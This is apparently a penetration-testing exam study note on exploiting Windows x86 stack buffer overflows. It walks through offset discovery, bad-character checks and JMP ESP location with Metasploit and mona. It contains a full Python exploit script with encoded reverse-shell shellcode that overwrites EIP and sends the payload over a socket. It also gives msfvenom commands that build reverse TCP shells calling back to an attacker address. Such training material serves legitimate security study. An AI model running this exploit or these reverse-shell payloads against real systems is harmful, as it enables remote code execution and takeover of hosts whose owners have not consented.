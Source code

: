 
## Buffer Overflow - Windows x86

### Intro

In the exam, you are provided with a fuzzing script already.

Some BO guides:
* https://www.nccgroup.trust/au/about-us/newsroom-and-events/blogs/2016/june/writing-exploits-for-win32-systems-from-scratch/


### 1. Fuzz application to determine ~bytes to cause a crash

![BOF_STEP1_FUZZ](images/BOF_STEP1_FUZZ.png)

### 2. Generate offset-discovery string

```bash
$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2700
```

![BOF_STEP2_OFFSET](images/BOF_STEP2_OFFSET.png)

### 3. Run script with offset-discovery string + look at value in EIP

**EIP** is where we want to store the address of a `JMP ESP` instruction, to re-direct execution flow.

Exploit Execution flow: EIP -> JMP ESP -> ESP (shellcode location)

### 4. Calculate offset

```bash
$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q [value in EIP]
```

### 5. Check for bad characters

### 6. Find address of a JMP ESP in a DLL

### 7. Generate shellcode

### 8. Final payload + run exploit


```Python
#!/usr/bin/python
#
#[*] Exact match at offset 2369
#76E295FD

import sys, socket

if len(sys.argv) < 2:
    print "\nUsage: " + sys.argv[0] + " <HOST>\n"
    sys.exit()

cmd = "OVRFLW "

shellcode = ("\xd9\xc6\xd9\x74\x24\xf4\x5f\x31\xc9\xbd\xc5\x06\x1f\x5e\xb1"
"\x52\x31\x6f\x17\x03\x6f\x17\x83\x2a\xfa\xfd\xab\x48\xeb\x80"
"\x54\xb0\xec\xe4\xdd\x55\xdd\x24\xb9\x1e\x4e\x95\xc9\x72\x63"
"\x5e\x9f\x66\xf0\x12\x08\x89\xb1\x99\x6e\xa4\x42\xb1\x53\xa7"
"\xc0\xc8\x87\x07\xf8\x02\xda\x46\x3d\x7e\x17\x1a\x96\xf4\x8a"
"\x8a\x93\x41\x17\x21\xef\x44\x1f\xd6\xb8\x67\x0e\x49\xb2\x31"
"\x90\x68\x17\x4a\x99\x72\x74\x77\x53\x09\x4e\x03\x62\xdb\x9e"
"\xec\xc9\x22\x2f\x1f\x13\x63\x88\xc0\x66\x9d\xea\x7d\x71\x5a"
"\x90\x59\xf4\x78\x32\x29\xae\xa4\xc2\xfe\x29\x2f\xc8\x4b\x3d"
"\x77\xcd\x4a\x92\x0c\xe9\xc7\x15\xc2\x7b\x93\x31\xc6\x20\x47"
"\x5b\x5f\x8d\x26\x64\xbf\x6e\x96\xc0\xb4\x83\xc3\x78\x97\xcb"
"\x20\xb1\x27\x0c\x2f\xc2\x54\x3e\xf0\x78\xf2\x72\x79\xa7\x05"
"\x74\x50\x1f\x99\x8b\x5b\x60\xb0\x4f\x0f\x30\xaa\x66\x30\xdb"
"\x2a\x86\xe5\x4c\x7a\x28\x56\x2d\x2a\x88\x06\xc5\x20\x07\x78"
"\xf5\x4b\xcd\x11\x9c\xb6\x86\xdd\xc9\x93\x49\xb6\x0b\xe3\x64"
"\x1a\x85\x05\xec\xb2\xc3\x9e\x99\x2b\x4e\x54\x3b\xb3\x44\x11"
"\x7b\x3f\x6b\xe6\x32\xc8\x06\xf4\xa3\x38\x5d\xa6\x62\x46\x4b"
"\xce\xe9\xd5\x10\x0e\x67\xc6\x8e\x59\x20\x38\xc7\x0f\xdc\x63"
"\x71\x2d\x1d\xf5\xba\xf5\xfa\xc6\x45\xf4\x8f\x73\x62\xe6\x49"
"\x7b\x2e\x52\x06\x2a\xf8\x0c\xe0\x84\x4a\xe6\xba\x7b\x05\x6e"
"\x3a\xb0\x96\xe8\x43\x9d\x60\x14\xf5\x48\x35\x2b\x3a\x1d\xb1"
"\x54\x26\xbd\x3e\x8f\xe2\xdd\xdc\x05\x1f\x76\x79\xcc\xa2\x1b"
"\x7a\x3b\xe0\x25\xf9\xc9\x99\xd1\xe1\xb8\x9c\x9e\xa5\x51\xed"
"\x8f\x43\x55\x42\xaf\x41")

JMP_ESP = "\x43\x66\xfe\x52"
NOPS = "\x90"*16
junk = "\x41"*2369 + JMP_ESP + NOPS + shellcode + "C"*(3000-2369-4-16-351)

end = "\r\n"

buffer = cmd + junk + end
try:
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((sys.argv[1], 4455))
	s.send(buffer)
	s.recv(1024)
	s.close()
except Exception as e:
	print(e)
```








### Fuzzing -> Determine exact offset -> Control EIP register

1. Fuzz application to determine rough amount of bytes to cause a crash.
2. Generate offset-discovery string: `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2700`
3. Run script with-offset discovery string + look at value in EIP
    * EIP is where we want to store address of a JMP ESP instruction
    * Execution flow: EIP -> JMP ESP -> ESP (shellcode location)
3. Calculate offset: `/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q [value in EIP]`

Now we know the exact #bytes needed to reach/control the EIP register so that we can overwrite it with JMP ESP address.

### Checking for bad chars

1. Generate string of bad characters (0x00 -> 0xFF)
2. Use list of bad chars as payload + execute script.
3. Observe crash + goto location in ESP register (right-click -> follow-in-dump)
4. Observe the hex dump and see which character has truncated the rest of the payload that should come after it.
5. Remove character from buffer + repeat steps until all bad chars have been found.

### Find address of a JMP ESP in a DLL

We need to find a module that contains a `JMP ESP` instruction which we can point to.

1. `!mona modules` to list all the loaded modules for the application.
2. Find a module that has no internal security mechanisms:
   * No memory protection (ASLR: address randomisation / DEP: data execution prevention)
   * Memory range of DLL does not contain bad characters
3. Find a `JMP ESP` or equivalent instruction in the DLL.
   * Click on the Executable Modules `e` icon to show list of all modules/DLLs loaded with the application.
   * Locate the chosen DLL in step #3 and click on the DLL.
   * Right-click on instruction window -> Search For -> Command -> `JMP ESP`
   * If none are found: Search For -> Command Sequence -> `PUSH ESP | RETN` (equivalent command)
   * If none are found: `!Mona find -s "\xFF\xE4" -m slmfc.dll` to find the opcode for `JMP ESP` in the whole slmfc.dll.
4. Once `JMP ESP` has been found, verify that the address does actually contain the instruction
   * Click on "Go to address in disassembler" button then enter in the address.
   * Check that the address has `JMP ESP`

### Generate and use shellcode

1. Generate shellcode, target specific platform (windows x86), encode payload, avoid bad characters
   `$ msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.42 LPORT=443 -f c -a x86 --platform windows -b "\x00\x0a\x0d" -e x86/shikata_ga_nai`
   In front of the shellcode are instructions to decode the encoded payload.
2. We need to provide the shellcode docoder some stack-space to work with
   * Append NOP instructions to the front of the payload e.g. `"\x90 * 16"`
3. 




--- 

# BOF
**1. Check buffer length to trigger overflow**  

**2. Cofirm overflow length, append "A" * length**  

**3. Generate Offset to check EIP, ESP location**  
  /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <length>

	Record value on EIP, select ESP and click "Follow in Dump"  
	/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q <value> -l <length>  

	Use !mona to find the offset after the overflow  
	!mona findmsp  

**4. Confirm EIP by adding "B" * 4 after the number of offset. Also, add a number of "C" to track the number of characters that can be added after EIP to confirm length of shellcode**

**5. Check bad characters after EIP. common bad characters are 0x00, 0x0A. Follow dump in ESP to check are there something missing after that.**
Add code:

	badchar = [0x00]
	for ch in range (0x00 , 0xFF+1):
		if ch not in badchar:
			<payload> += chr(ch)

**6. Find JMP ESP address in the system.**
	JMP ESP = FFE4

	!mona jmp -r esp -cpb "\x00\x0A" << bad character

	!mona modules
	!mona find -s "\xff\xe4" -m brainpan.exe

	check the value of the address by naviate to it.
	Set breakpoint
	Change "B" in EIP to the address of JMP ESP << littile edian

	e.g. 0x311712f3 >> "\xf3\x12\x17\x31"

	Run again to check is the breakpoint triggered

**7. Add shellcode**
	Add a few \x90 before shellcode to avoid shellcode being modify

	msfvenom -p windows/shell_reverse_tcp LHOST=<IP>LPORT=<PORT> EXITFUNC=thread -f <Code Format> -a x86 -platform windows -b "\x00"
	msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP>LPORT=<PORT> EXITFUNC=thread -f <Code Format> -b "\x00"

**Bonus: Running out of shell code space?**
Use the front of payload instead
1. Is there any register points to the front of our payload? EAX, EDX?
2. Check JMP register address
	/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb

	JMP EAX/EBX/ECX/EDX

3. Append the address as shell code.
4. Add payload to the front






